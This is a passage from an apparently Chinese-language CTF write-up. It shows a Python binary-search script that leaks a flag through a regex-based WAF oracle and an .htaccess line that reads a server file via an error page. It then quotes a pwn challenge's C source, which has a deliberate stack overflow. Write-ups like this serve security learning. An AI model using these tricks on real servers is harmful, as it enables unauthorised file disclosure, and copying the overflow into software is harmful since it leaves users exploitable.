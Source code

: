 ```python
# prefix = '''FLAG{Wh4t_1f_th3_WAF_b3c0m3_preg_match('/h/i',file_get_contents'''
# prefix = '''FLAG{Wh4t_1f_th3_WAF_b3c0m3_preg_match('/h/i',file_get_contents($file['tmp_name'])'''
# print(len(prefix))

prefix = ''
# prefix = 'RkxBR3tXaDR0XzFmX3RoM19XQUZfYjNjMG0zX3ByZWdfbWF0Y2goJy9oL2knLGZpbGVfZ2V0X2NvbnRlbnRzKCRmaWxlWyd0bXBfbmFtZSddKSkhPT0w'

for i in range(89 // 3 * 4):
    L = 32
    R = 127

    while R - L > 1:
        M = (R + L) // 2
        if ask_leq(prefix + chr(M)):
            R = M
        else:
            L = M
    prefix += chr(L)
    print(L, prefix)
    if len(prefix) % 4 == 0:
        print(b64decode(prefix.encode()))
```

後來得知這題其實很簡單就可以拿到 flag 了…

```apache
# .htaccess
ErrorDocument 403 %{file:/flag.txt}
```

---

## pwn
### how2know_revenge

原題的 source code:

```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <stdlib.h>

static char flag[0x30];

int main()
{
    char addr[0x10];
    int fd;
    scmp_filter_ctx ctx;

    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the rop\n", 31);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
```